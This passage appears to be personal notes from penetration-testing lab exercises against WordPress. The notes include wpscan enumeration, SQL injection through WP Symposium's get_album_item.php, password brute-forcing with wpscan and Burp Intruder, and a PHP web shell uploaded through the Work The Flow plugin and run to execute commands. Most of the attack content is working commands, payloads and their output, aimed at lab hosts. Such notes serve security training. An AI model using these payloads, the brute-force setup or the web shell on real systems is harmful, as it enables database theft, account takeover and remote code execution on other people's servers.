 |  - https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4, Match: 'Version: 1.0'

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:📌

[+] wp-symposium📌
 | Location: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/
 | Last Updated: 2015-08-21T12:36:00.000Z
 | [!] The version is out of date, the latest version is 15.8.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 15.1 (80% confidence)📌
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/readme.txt

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Dec  6 11:54:37 2024
[+] Requests Done: 33
[+] Cached Requests: 5
[+] Data Sent: 11.439 KB
[+] Data Received: 199.089 KB
[+] Memory used: 278.641 MB
[+] Elapsed time: 00:00:16
```

`wpscan --url https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/ --enumerate p --api-token '<API-TOKEN>'`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/ [172.104.135.113]
[+] Started: Fri Dec  6 11:58:17 2024

Interesting Finding(s):

[+] Headers
 | Interesting Entries:
 |  - server: Apache/2.4.7 (Ubuntu)
 |  - x-powered-by: PHP/5.5.9-1ubuntu4.25
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 4.4 identified (Insecure, released on 2015-12-09).📌
 | Found By: Rss Generator (Passive Detection)
 |  - https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/?feed=rss2, <generator>https://wordpress.org/?v=4.4</generator>
 |  - https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/?feed=comments-rss2, <generator>https://wordpress.org/?v=4.4</generator>
 |
 | [!] 116 vulnerabilities identified:📌
 |
 | [!] Title: WordPress  3.7-4.4 - Authenticated Cross-Site Scripting (XSS)
 |     Fixed in: 4.4.1
 |     References:
 |      - https://wpscan.com/vulnerability/09329e59-1871-4eb7-b6ea-fd187cd8db23
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-1564
 |      - https://wordpress.org/news/2016/01/wordpress-4-4-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/7ab65139c6838910426567849c7abed723932b87
 |
 | [!] Title: WordPress 3.7-4.4.1 - Local URIs Server Side Request Forgery (SSRF)
 |     Fixed in: 4.4.2
 |     References:
 |      - https://wpscan.com/vulnerability/b19b6a22-3ebf-488d-b394-b578cd23c959
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-2222
 |      - https://wordpress.org/news/2016/02/wordpress-4-4-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/changeset/36435
 |      - https://hackerone.com/reports/110801

[...]

[+] WordPress theme in use: twentysixteen
 | Location: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/
 | Last Updated: 2024-11-13T00:00:00.000Z
 | Readme: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/readme.txt
 | [!] The version is out of date, the latest version is 3.4
 | Style URL: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4
 | Style Name: Twenty Sixteen
 | Style URI: https://wordpress.org/themes/twentysixteen/
 | Description: Twenty Sixteen is a modernized take on an ever-popular WordPress layout — the horizontal masthead wi...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 1.0 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/themes/twentysixteen/style.css?ver=4.4, Match: 'Version: 1.0'

[+] Enumerating Most Popular Plugins (via Passive Methods)
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:📌

[+] wp-symposium📌
 | Location: https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/
 | Last Updated: 2015-08-21T12:36:00.000Z
 | [!] The version is out of date, the latest version is 15.8.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 7 vulnerabilities identified:📌
 |
 | [!] Title: WP Symposium 13.04 - Unvalidated Redirect
 |     References:
 |      - https://wpscan.com/vulnerability/34c4aeb1-3dc4-44b8-90b8-a94b9c11b594
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2013-2694
 |
 | [!] Title: WP Symposium <= 12.07.07 - Authentication Bypass
 |     Reference: https://wpscan.com/vulnerability/cbacde86-17a4-4103-94f5-09dae96bd935
 |
 | [!] Title: WP Symposium <= 14.11 - Unauthenticated Shell Upload
 |     References:
 |      - https://wpscan.com/vulnerability/2e454393-a36d-4b24-9b9e-603f5efddfb0
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-10021
 |      - https://www.exploit-db.com/exploits/35543/
 |      - https://www.exploit-db.com/exploits/35778/
 |      - https://www.homelab.it/index.php/2014/12/11/wordpress-wp-symposium-shell-upload/
 |      - https://blog.sucuri.net/2014/12/wp-symposium-zero-day-vulnerability-dangers.html
 |      - https://packetstormsecurity.com/files/129884/
 |      - https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_symposium_shell_upload/
 |      - https://www.youtube.com/watch?v=pF8lIuLT6Vs
 |
 | [!] Title: WP Symposium < 15.4 - SQL Injection📌
 |     Fixed in: 15.4
 |     References:
 |      - https://wpscan.com/vulnerability/cb30bfcd-58ae-4210-bc6c-6d898c9e446c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-3325
 |      - https://www.exploit-db.com/exploits/37080/
 |      - https://web.archive.org/web/20150718010246/https://permalink.gmane.org/gmane.comp.security.oss.general/16479
 |      - https://packetstormsecurity.com/files/131801/
 |
 | [!] Title: WP Symposium < 15.8 - Unauthenticated SQL Injection📌
 |     Fixed in: 15.8
 |     References:
 |      - https://wpscan.com/vulnerability/f9f78241-8911-485e-9e18-a3da1096220c
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6522
 |      - https://www.exploit-db.com/exploits/37824/
 |      - https://plugins.trac.wordpress.org/changeset/1214872/wp-symposium
 |
 | [!] Title: WP Symposium < 15.8 - Blind SQL Injection
 |     Fixed in: 15.8
 |     References:
 |      - https://wpscan.com/vulnerability/a4b7d222-2d1d-44c0-be07-b328c1a2a0d7
 |      - https://advisories.dxw.com/advisories/blind-sql-injection-in-wp-symposium-allows-unauthenticated-attackers-to-access-sensitive-data/
 |
 | [!] Title: WP Symposium <= 15.8.1 - Unauthenticated Reflected Cross-Site Scripting (XSS)
 |     References:
 |      - https://wpscan.com/vulnerability/2ac2d43f-bf3f-4831-9585-5c5484051095
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-9414
 |      - https://cxsecurity.com/issue/WLB-2015090024
 |
 | Version: 15.1 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/readme.txt

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 3
 | Requests Remaining: 22

[+] Finished: Fri Dec  6 11:58:25 2024
[+] Requests Done: 7
[+] Cached Requests: 36
[+] Data Sent: 2.025 KB
[+] Data Received: 79.321 KB
[+] Memory used: 249.094 MB
[+] Elapsed time: 00:00:07
```

`searchsploit 'wp symposium'`:
```
----------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                             |  Path
----------------------------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Symposium 0.64 - SQL Injection                                                            | php/webapps/17679.txt
WordPress Plugin WP Symposium 14.11 - Arbitrary File Upload                                                | php/webapps/35543.py
WordPress Plugin WP Symposium 14.11 - Arbitrary File Upload (Metasploit)                                   | php/remote/35778.rb
WordPress Plugin WP Symposium 15.1 - '&show=' SQL Injection                                                | php/webapps/37080.txt
WordPress Plugin WP Symposium 15.1 - 'get_album_item.php' SQL Injection📌                                  | php/webapps/37824.txt
WordPress Plugin WP Symposium 15.1 - Blind SQL Injection                                                   | php/webapps/37822.txt
WordPress Plugin WP Symposium Pro 2021.10 - 'wps_admin_forum_add_name' Stored Cross-Site Scripting (XSS)   | php/webapps/50514.txt
WordPress Plugin WP Symposium Pro Social Network Plugin 15.12 - Multiple Vulnerabilities                   | php/webapps/39202.txt
----------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/37824.txt ./`

`cat ./....txt`:
```
# Exploit Title: Wordpress Plugin wp-symposium Unauthenticated SQL Injection Vulnerability📌
# Date: 2015-07-30
# Exploit Author: PizzaHatHacker
# Vendor Homepage: http://www.wpsymposium.com/
# Version: ? <= version <= 15.5.1
# Contact: PizzaHatHacker[a]gmail[.]com
# Tested on: Apache / WordPress 4.2.3 / wp-symposium 15.5.1
# CVE:
# Category: remote

1. Product Description
Extract from the plugin page :
"WP Symposium turns a WordPress website into a Social Network! It is a WordPress plugin that provides a forum, activity (similar to Facebook wall), member directory, private mail, notification panel, chat windows, profile page, social widgets, activity alerts, RSS activity feeds, Groups, Events, Gallery, Facebook Connect and Mobile support! You simply choose which you want to activate! Certain features are optional to members to protect their privacy."

2. Vulnerability Description & Technical Details
Wordpress plugin wp-symposium version 15.5.1 (and probably all existing previous versions) suffers from an unauthenticated SQL Injection in get_album_item.php parameter 'size'.📌
The issue is exploitable even if the plugin is deactivated.📌

3. Impact Analysis :

The SQL injection allows (very easily) to retrieve all the database content, which includes users details and password hashes.📌 An attacker may be able to crack users' password hashes and log in as them. If an administrator user password is obtained, then the attacker could take complete control of the Wordpress installation. Collected information may also allow further attacks.

4. Common Vulnerability Scoring System
* Exploitability Metrics
- Access Vector (AV) : Network (AV:N)
- Access Complexity (AC) : Low (AC:L)
- Authentication (Au) : None (Au:N)

* Impact Metrics
- Confidentiality Impact (C) : Partial (C:P)
- Integrity Impact (I) : Partial (I:P)
- Availability Impact (A) : Partial (A:P)

* CVSS v2 Vector (AV:N/AC:M/Au:N/C:P/I:P/A:P)
- CVSS Base Score : 7.5
- Impact Subscore 6.4
- Exploitability Subscore 10

5. Proof of Concept

PoC URL : http://localhost/<WP-path>/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--📌
PoC Command (Unix) : wget "http://localhost/<WP-path>/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--" -O output.txt📌

In the content of the HTTP response you will find the MySQL version, for example :
5.5.44-0+deb7u1

6. Vulnerability Timeline
2015-05    : Vulnerability identified
2015-07-30 : Vendor informed about this issue
2015-07-30 : Vendor confirms the issue
2015-08-04 : Ask for a delay to deploy the fix
2015-08-04 : Response : 1-2 days (needs testing)
2015-08-07 : Update to version 15.8 is available
2015-08-10 : Disclosure of this document (a diff on the patch will trivially reveal the issue)

7. Solution
Update Wordpress plugin wp-symposium to the latest version, which is 15.8 at the date I am writing this.

8. Personal Notes

I am not a security professional, just a fan of computer security.
If you have any questions/remarks, feel free to contact me.
I'm interesting in any discussion/advice/question/criticism about security/exploits/programming :-) 
```

`wget 'https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--' -O ./sqli_output.txt`:
```
--2024-12-06 12:02:31--  https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/get_album_item.php?size=version%28%29%20;%20--
Resolving 782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com (782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com)... 172.104.135.113
Connecting to 782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com (782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com)|172.104.135.113|:443... connected.
^[[AHTTP request sent, awaiting response... 200 OK
Length: 23 [image/jpeg]
Saving to: ‘./sqli_output.txt’

./sqli_output.txt                               100%[====================================================================================================>]      23  --.-KB/s    in 0s      

2024-12-06 12:02:32 (34.7 MB/s) - ‘./sqli_output.txt’ saved [23/23]
```

`cat ./sqli_output.txt`:
```
5.5.47-0ubuntu0.14.04.1🚩
```

`wget -q 'https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/get_album_item.php?size=%40%40version_compile_os%3B--' -O ./sqli_output.txt && cat ./sqli_output.txt`
```
debian-linux-gnu
```

`wget -q 'https://782xmj7jlja3jikvj1cmel4pt.eu-central-6.attackdefensecloudlabs.com/wp-content/plugins/wp-symposium/get_album_item.php?size=database%28%29%3B--' -O ./sqli_output.txt && cat ./sqli_output.txt`:
```
wordpress
```

---

## Authentication Attacks

### WordPress Authentication Brute-Force Attacks (with Burp Suite)

#### Lab Solution

`wpscan --url https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/ --enumerate u`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[...]

[+] Enumerating Users (via Passive and Aggressive Methods)📌
 Brute Forcing Author IDs - Time: 00:00:00 <===============================================================================================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:📌

[+] pentester📌
 | Found By: Author Posts - Display Name (Passive Detection)
 | Confirmed By:
 |  Rss Generator (Passive Detection)
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Dec  6 12:29:42 2024
[+] Requests Done: 53
[+] Cached Requests: 6
[+] Data Sent: 18.488 KB
[+] Data Received: 207.814 KB
[+] Memory used: 186.086 MB
[+] Elapsed time: 00:00:07
```

`wpscan --url https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/ -U 'pentester' -P /usr/share/wordlists/rockyou.txt`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[...]

[+] Performing password attack on Xmlrpc against 1 user/s📌
[SUCCESS] - pentester / password1                                                                                                                                                            
Trying pentester / anthony Time: 00:00:01 <                                                                                                           > (30 / 14344422)  0.00%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: pentester, Password: password1🔑

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Dec  6 12:30:02 2024
[+] Requests Done: 172
[+] Cached Requests: 35
[+] Data Sent: 69.121 KB
[+] Data Received: 42.192 KB
[+] Memory used: 288.402 MB
[+] Elapsed time: 00:00:12
```

🔄 Alternative 🔄

`burpsuite` > `Intruder` > `Payloads` = `Payload configuration: Load: /usr/share/wordlists/metasploit/unix_passwords.txt` > `Settings` = `Redirections: Always` > `Start attack`

`HTTP Request`:
```http
POST /wp-login.php📌 HTTP/2
Host: k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 74
Origin: https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com
Referer: https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

log=pentester&pwd=§password§&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1📌
```
`HTTP Response`:
```http
POST /wp-login.php HTTP/2
Host: k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com
Cookie: wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com
Referer: https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-login.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

log=pentester&pwd=password1&wp-submit=Log+In&redirect_to=%2Fwp-admin%2F&testcookie=1🔑
```

---

## Exploiting Vulnerabilities

### WordPress Plugin Vulnerabilities: Arbitrary File Upload

#### Lab Environment

**WordPress Upload Plugin**

An attacker might get administrative access to a web application. However, this does not automatically mean that the web server can be compromised. In cases where a SaaS application is made available to users, it is routine to give each user admin access to his own instance of the web application (e.g. a managed hosted WordPress site). In such scenario, the attacker who will begin accessing the application as a managed administrative user will have to figure out how to exploit the administrative interface to get a shell on the server. In some cases, it might be possible to do privilege escalation as well.

In the exercise below, <u>the attacker has administrative access to the web application and needs to find a file upload attack to eventually run arbitrary commands on the server</u>.

<u>WordPress has a plugin which is vulnerable to a file upload attack</u>.

The following username and password may be used to explore the application and/or find a vulnerability which might require authenticated access:
- Username: "pentester"
- Password: "password1".

**Objective**: Your task is to find and exploit this vulnerability.

#### Lab Solution





`wpscan --url https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/ --enumerate p`:
```
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.27
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[...]

[+] Enumerating Most Popular Plugins (via Passive Methods)📌

[i] No plugins Found.📌

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Fri Dec  6 12:50:00 2024
[+] Requests Done: 2
[+] Cached Requests: 34
[+] Data Sent: 808 B
[+] Data Received: 1.093 KB
[+] Memory used: 272.801 MB
[+] Elapsed time: 00:00:05
```
❌



`searchsploit 'work the flow file upload'`:
```
-------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                        |  Path
-------------------------------------------------------------------------------------- ---------------------------------
WordPress Plugin Work The Flow - Arbitrary File Upload (Metasploit)                   | php/remote/36812.rb
WordPress Plugin Work The Flow File Upload 2.5.2 - Arbitrary File Upload📌              | php/webapps/36640.txt
WordPress Plugin Work-The-Flow 1.2.1 - Arbitrary File Upload                          | php/webapps/33003.txt
-------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

`cp /usr/share/exploitdb/exploits/php/webapps/36640.txt ./`

`cat ./36640.txt`:
```
######################

# Exploit Title : Wordpress Work the flow file upload 2.5.2 Shell Upload Vulnerability📌

# Exploit Author : Claudio Viviani


# Software Link : https://downloads.wordpress.org/plugin/work-the-flow-file-upload.2.5.2.zip

# Date : 2015-03-14

# Tested on : Linux BackBox 4.0 / curl 7.35.0

######################

# Description:

Work the Flow File Upload. Embed Html5 User File Uploads and Workflows into pages and posts.
Multiple file Drag and Drop upload, Image Gallery display, Reordering and Archiving.
This two in one plugin provides shortcodes to embed front end user file upload capability and / or step by step workflow.

######################

# Location :

http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php📌


######################

# PoC:

curl -k -X POST -F "action=upload" -F "files=@./backdoor.php" http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php📌

# Backdoor Location:

 http://VICTIM/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/backdoor.php


######################

[...]
```

`vim ./shell.php`:
```php
<?php
$output = shell_exec($_GET["cmd"]); 
echo "<pre>$output</pre>";
?>
```

`curl -s -X POST https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/index.php -F 'action=upload' -F 'files=@./shell.php' | jq`:
```json
{
  "files": [
    {
      "name": "shell.php",📌
      "size": 71,
      "type": "application/octet-stream",
      "url": "https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell%20%281%29.php",                                                                                                                                                                        
      "deleteUrl": "https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/?file=shell%20%281%29.php",                                                                                                                                                                  
      "deleteType": "DELETE"
    }
  ]
}
```

`curl 'https://k83az1onb5gcoui52hjinmgfc.eu-central-7.attackdefensecloudlabs.com/wp-content/plugins/work-the-flow-file-upload/public/assets/jQuery-File-Upload-9.5.0/server/php/files/shell.php?cmd=id'`:
```
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)🚩
</pre>
```

### WordPress Plugin Vulnerabilities: Stored XSS

#### Lab Environment

**WordPress Appointment Booking Calendar Stored XSS**

In this exercise, the attacker has admin access already so there is nothing more to be done. However, looks like the <u>admin access does lead to an XSS attack</u>. So you can try to find this XSS as a purely academic exercise.

